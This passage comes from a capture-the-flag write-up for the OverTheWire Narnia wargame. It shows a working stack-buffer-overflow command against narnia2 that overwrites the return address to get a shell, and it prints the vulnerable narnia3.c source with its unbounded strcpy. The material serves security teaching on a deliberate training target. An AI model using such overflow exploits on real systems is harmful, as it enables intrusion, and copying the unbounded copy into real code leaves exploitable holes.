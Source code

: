 Running it gives:

```
narnia2@melinda:/tmp$ ./getshadd EGG /narnia/narnia2
EGG will be at 0xffffd945
```

### Step 4: Running the Exploit!

Now all we need to do is to run the binary with 140 bytes of junk plus the address that we want to point the return address to:

```sh
narnia2@melinda:/tmp/ya2$ /narnia/narnia2 `python -c 'print "A"*140 + "\x45\xd9\xff\xff"'`
$ whoami
narnia3
```


------

## Level 3: Stack Overflow, Files, and Symbolic Links

### Step 1: Understanding the Problem

The fourth level starts with:

```sh
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
narnia3@melinda:/narnia$ cat narnia3.c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

 int ifd, ofd;
 char ofile[16] = "/dev/null";
 char ifile[32];
 char buf[32];

 if(argc != 2){
 printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
 exit(-1);
 }

 /* open files */
 strcpy(ifile, argv[1]);
 if((ofd = open(ofile,O_RDWR)) < 0 ){
 printf("error opening %s\n", ofile);
 exit(-1);
 }
 if((ifd = open(ifile, O_RDONLY)) < 0 ){
 printf("error opening %s\n", ifile);
 exit(-1);
 }

 /* copy from file1 to file2 */
 read(ifd, buf, sizeof(buf)-1);
 write(ofd,buf, sizeof(buf)-1);
 printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
```

[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://singularity.miavonsteinkirch.com/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP